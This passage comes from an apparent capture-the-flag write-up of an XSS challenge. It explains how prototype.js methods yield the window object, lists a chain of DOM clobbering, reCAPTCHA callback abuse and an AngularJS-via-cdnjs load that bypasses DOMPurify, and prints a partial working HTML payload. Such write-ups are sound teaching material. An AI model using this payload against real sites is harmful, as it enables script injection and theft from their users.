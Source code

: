 For the second issue, we need to know why prototype.js is needed.

It's needed because prototype.js adds a few methods to different prototype, like Function.prototype:

function curry() {
  if (!arguments.length) return this;
  var __method = this, args = slice.call(arguments, 0);
  return function() {
    var a = merge(args, arguments);
    return __method.apply(this, a);
  }
}
The first argument of fn.call() is this, if you call this function without providing this, the default value of this is window in non-strict mode.

So, any_function.curry.call() will return this which is window, that's why we need prototype.js.

If you look at the source code again, you can find a similar pattern:

String.prototype.encode = function(type) {
  if (!type) return this
  if (type === 'uri') return encodeURIComponent(this)
  if (type === 'json') return JSON.stringify(this)
  if (type === 'base64') return atob(this)
}
That is to say, we can get window via "any_string".encode.call().

Piece all together
The full exploit including:

DOM clobbering window.defaultOptions.allowDOM to allow clobber document
DOM clobbering document.scripts['undefined']
Call loadData via reCAPTCHA
Call reloadRecaptchaScript via reCAPTCHA
Load AngularJS from cdn.js by classic google gadget and ..%2f trick
Use data-ng-app instead of ng-app to bypass DOMPurify
Use "".encode.call() to get window object
Here is the final payload for the intended solution:

link

<div>
  <form></form>
  <form name="scripts">
    <img name="undefined" src="https://www.google.com/recaptcha/../complete/search?client=chrome&q=https://cdnjs.cloudflare.com/ajax/libs/dompurify/..%252fangular.js/1.8.2/angular.js%23&callback=loadScript">
  </form>
  <form id=defaultOptions>
    <img name=allowDOM>
  </form>
    <div class="g-recaptcha" data-sitekey="AAA" data-error-callback="reloadRecaptchaScript" data-size="invisible"></div>
  <div class="g-recaptcha" data-sitekey="B" data-error-callback="loadData" data-size="invisible"></div>
  